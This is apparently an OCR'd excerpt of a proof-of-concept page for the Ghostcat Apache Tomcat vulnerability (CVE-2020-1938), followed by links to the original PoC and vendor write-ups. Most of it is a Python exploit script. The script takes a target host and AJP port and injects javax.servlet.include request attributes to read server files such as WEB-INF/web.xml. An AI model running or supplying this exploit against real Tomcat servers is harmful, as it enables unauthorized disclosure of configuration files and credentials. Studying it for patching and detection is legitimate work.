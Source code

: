 ```python
parser = argparse.ArgumentParser()
parser.add_argument("target", type=str, help="Hostname or IP to attack")
parser.add_argument('-p', '--port', type=int, default=8009, help="AJP port to attack (default is 8009)")
parser.add_argument("-f", '--file', type=str, default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")
args = parser.parse_args()
t = Tomcat(args.target, args.port)
_,data = t.perform_request('/asdf',attributes=[
    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/']},
    {'name':'req_attribute','value':['javax.servlet.include.path_info',args.file]},
    {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},
    ])
print('----------------------------')
print("".join([d.data for d in data]))
```

## Reference
[1] [PoC - ydhcui](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)

[2] [Ghostcat Vulnerability - KOROMOON](https://koromoon.blogspot.com/2020/03/cve-2020-1938-ghostcat-vulnerability.html)

[3] [Busting Ghostcat: An Analysis of the Apache Tomcat Vulnerability (CVE-2020-1938 and CNVD-2020-10487) - TrendMicro](https://blog.trendmicro.com/trendlabs-security-intelligence/busting-ghostcat-an-analysis-of-the-apache-tomcat-vulnerability-cve-2020-1938-and-cnvd-2020-10487/)

[4] [ChostCat vulnerability - Chaitin Tech](https://www.chaitin.cn/en/ghostcat#download)